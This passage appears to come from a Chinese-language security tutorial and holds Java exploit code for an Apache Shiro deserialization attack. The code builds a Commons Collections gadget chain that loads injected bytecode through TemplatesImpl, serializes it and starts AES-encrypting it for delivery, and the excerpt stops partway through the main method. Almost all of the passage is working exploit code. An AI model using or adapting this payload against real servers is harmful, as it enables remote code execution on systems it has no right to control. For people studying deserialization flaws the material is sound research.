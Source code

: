- InvokerTransformer中最开始传入的是无害的`getClass`方法，后续再改为会发生利用链的`newTransformer`方法
- javassist是操作字节码的第三方库，可以帮助将`SpringEcho1`类生成字节码

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollectionsShiro {

    public static void setFieldValue(Object obj, String fieldName, Object value)
            throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][] {clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        // 传入无害方法
        Transformer transformer = new InvokerTransformer("getClass", null, null);

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformer);
        // key修改为TemplatesImpl对象
        TiedMapEntry tme = new TiedMapEntry(outerMap, obj);
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");
        outerMap.clear();

        // 改为会发生利用链的newTransformer方法
        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        return barr.toByteArray();
    }

    public static void main(String []args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(SpringEcho1.class.getName());
        // 获取payload
        byte[] payloads = new CommonsCollectionsShiro().getPayload(clazz.toBytecode());
        AesCipherService aes = new AesCipherService();
```